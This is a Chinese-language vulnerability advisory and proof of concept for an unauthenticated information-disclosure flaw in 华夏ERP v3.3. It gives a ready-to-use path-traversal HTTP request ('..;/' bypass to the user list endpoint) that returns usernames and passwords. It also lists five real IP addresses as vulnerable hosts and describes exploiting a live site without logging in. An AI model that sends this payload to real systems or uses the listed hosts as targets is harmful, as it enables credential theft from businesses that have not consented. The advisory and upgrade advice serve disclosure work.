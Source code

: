 

## 产品简介

管伊佳ERP（原名华夏ERP）基于SpringBoot框架和SaaS模式，立志为中小企业提供开源好用的ERP软件，目前专注进销存+财务+生产功能。主要模块有零售管理、采购管理、销售管理、仓库管理、财务管理、报表查询、系统管理等。支持预付款、收入支出、仓库调拨、组装拆卸、订单等特色功能。拥有商品库存、出入库统计等报表。同时对角色和权限进行了细致全面控制，精确到每个按钮和菜单。

## 漏洞描述

华夏ERP系统存在信息泄露漏洞，通过请求含有payload的数据包即可返回用户名、密码、职级等敏感信息，由于漏洞利用难度简单，建议使用者立刻升级到v3.5及以上版本，防止此漏洞被利用。

## 漏洞URL

```
http://121.228.124.38:8088/,https://222.71.147.35/,http://39.106.129.54:8081/,http://8.138.91.130:8088/,http://101.37.118.74:8890/
```

## POC

```http
GET /jshERP-boot/platformConfig/getPlatform/..;/..;/..;/jshERP-boot/user/getAllList HTTP/1.1
Host: <target host>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

## 复现

进入某使用了华夏ERPv3.3的网站，无需登录，发包得到回显：

![image-20250225154253578](./image-20250225154253578.png)

浏览器显示如下：

![image-20250225154604745](./image-20250225154604745.png)
